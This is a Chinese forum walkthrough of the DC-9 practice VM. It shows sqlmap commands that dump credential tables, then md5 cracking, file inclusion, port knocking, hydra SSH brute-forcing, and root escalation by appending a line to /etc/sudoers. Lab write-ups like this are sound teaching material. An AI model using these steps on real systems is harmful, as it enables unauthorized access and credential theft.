# [CTF] 【DC系列09】DC-9靶机详解

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1861513
- 抓取时间: 2026-11-01T22:42:36

## 【DC系列09】DC-9靶机复盘

渗透测试靶机的作用是为了让新手更快学习和入门渗透测试而搭建的一种环境，另一种作用就是在真实渗透测试过程中真实环境不允许直接进行测试从而模仿真实的环境搭建一个相同环境进行测试。靶机，相当于部队训练场上，打枪时候的那个靶子，你要学习、练手。就需要有目标环境，就是说你现在有个枪，需要有个靶子来給你挨枪子儿，供你练习。

靶机下载地址：[//www.five86.com/downloads.html" target="_blank" rel="noopener noreferrer nofollow"](https://www.five86.com/downloads.html:rel="nofollow noopener" href="https)

同样我们对这个靶机进行一个扫描，先找到ip地址。



然后再单独对这个ip地址进行扫描，发现打开了22端口和80端口，但是我们现在不能访问22端口。



这里我们搜索以下，网址没有明显变化就是post请求，所以猜测是有数据库的。



抓包看以下，发现的确是有post请求。



对数据库进行一个扫描，发现有两个数据库，第一个是默认带的。

```
sqlmap -u 'http://192.168.102.151/results.php' --data 'search=2' --dbs --batch
```



先扫描了一下user数据库，发现里面有一个表。

```
sqlmap -u 'http://192.168.102.151/results.php' --data 'search=1' -D users --tables --batch
```



提取一下表中的列，发现有`username`和`password`.

```
sqlmap -u 'http://192.168.102.151/results.php' --data 'search=1' -D users -T UserDetails --columns --batch
```



把用户名和密码提取出来，sqlman专门帮我们保存到了一个csv文件中去了。

```
sqlmap -u 'http://192.168.102.151/results.php' --data 'search=1' -D users -T UserDetails -C 'username,password' --dump
```



对用户名和密码进行一个单独的保存，方便等会的爆破。

```
cat /root/.local/share/sqlmap/output/192.168.102.151/dump/users/UserDetails.csv|awk -F, '{print $1}' > pass
```



再看看Staff数据库，发现里面有一个Users表。

```
sqlmap -u 'http://192.168.102.151/results.php' --data 'search=1' -D Staff --tables --batch
```



发现这个表中也有一个账号密码。

```
sqlmap -u 'http://192.168.102.151/results.php' --data 'search=1' -D Staff -T Users --columns
```



发现用户名是admin，密码是一个md5，不出以为这应该就是网站后台登陆账户。

```
sqlmap -u 'http://192.168.102.151/results.php' --data 'search=1' -D Staff -T Users -C 'Username,Password' --dump --batch
```



破解一下md5，密码就出来了。



后台登陆一下，发现成功登陆了上去。



只多了一个Add Record菜单，我们提交一些数据。



发现下面file does not exist，所以猜测这里面有个文件包含漏洞。



尝试了以下发现果然有一个文件包含。



/proc/sched_debug是一个Linux内核中的虚拟文件，文件包含了一个完整的调度器状态快照，包括所有运行的进程及它们的状态、进程的调度策略、调度队列、调度器的负载平衡状态等。

`/proc/sched_debug`是一个Linux内核中的虚拟文件，文件包含了一个完整的调度器状态快照，包括所有运行的进程及它们的状态、进程的调度策略、调度队列、调度器的负载平衡状态等。

我们发现了`knockd`的进程，`knockd`是一个守护进程，它在后台运行，并等待接收预定义的端口序列。当它接收到正确的端口序列时，它会执行预定义的安全操作。这个过程类似于“敲门”，因此它被称为knockd。



我们查看一下这个进程文件，发现里面是有三个参数，意思就是，当SSH按照这个顺序收到三个syn包后，ssh才可以开启。



利用`knock`工具我们可以向目标主机发送三个syn包，再用`nmap`扫描一下，发现22端口开启了。



这时候我们利用`hyrad`爆破以下ssh，用户名和密码字典就是我们`sqlmap`在数据库中找到的，发现有三个用户。



经过尝试只有第三个里面有点利用东西，第一个第二个没找到线索。



第三个用户登陆进去后`ls -al`发现一个隐藏目录，进去后发现有一个密码字典。



把新发现的字典在爆破一下，发现了两个新的用户。



登陆上`fredf`用户，`sudo -l`发现`fredf`用户可以免密使用root权限的文件有一个。





这里面的意思就是这个命令有两个参数，打开第一个文件，追加到第二个文件中去。



既然是root权限，我们就可以提升我们这个用户的权限为ALL，和root用户权限是一样的，

把这个命令先写到一个文件中去。然后利用`test`命令追加到`/etc/sudoers`中去。

```
fredf ALL=(ALL:ALL) ALL
```



然后`sudo su -`提升下自己的权限就可以了



## 其他章节

DC1,DC2：[//www.52pojie.cn/thread-1802206-1-1.html" target="_blank" rel="noopener noreferrer nofollow"](https://www.52pojie.cn/thread-1802206-1-1.html:href="https)

DC3,DC4：[//www.52pojie.cn/thread-1805631-1-1.html" target="_blank" rel="noopener noreferrer nofollow"](https://www.52pojie.cn/thread-1805631-1-1.html:href="https)

DC5,DC6：[//www.52pojie.cn/thread-1808585-1-1.html" target="_blank" rel="noopener noreferrer nofollow"](https://www.52pojie.cn/thread-1808585-1-1.html:href="https)

DC7,DC8：[//www.52pojie.cn/thread-1814113-1-1.html" target="_blank" rel="noopener noreferrer nofollow"](https://www.52pojie.cn/thread-1814113-1-1.html:href="https)
